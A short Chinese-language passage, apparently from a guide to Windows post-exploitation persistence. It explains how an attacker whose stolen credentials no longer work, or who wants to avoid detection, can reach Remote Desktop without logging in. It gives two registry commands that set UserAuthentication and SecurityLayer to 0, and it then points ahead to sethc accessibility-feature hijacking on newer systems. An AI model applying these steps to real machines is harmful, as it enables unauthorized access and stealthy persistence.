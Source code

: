 ![登录失败界面](assets/RDP_login_failed.png)

但是如果我们收集到的账号密码被改掉了, 或者为了减小被发现的风险, 最好是希望不登录就能进入远程桌面, 需要同时设置 UserAuthentication 和 SecurityLayer为0

```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
```

此种文件替换的方式, 只对老一些版本的系统有效, 而较新版本的系统， 比如 win10, win server 2019, 则会报操作需要 `TrustedInstaller` 权限, 此时就需要用到下面的 辅助功能镜像劫持

![TrustedInstaller](assets/sethc_edit_TrustedInstaller_win_server_2019.png)
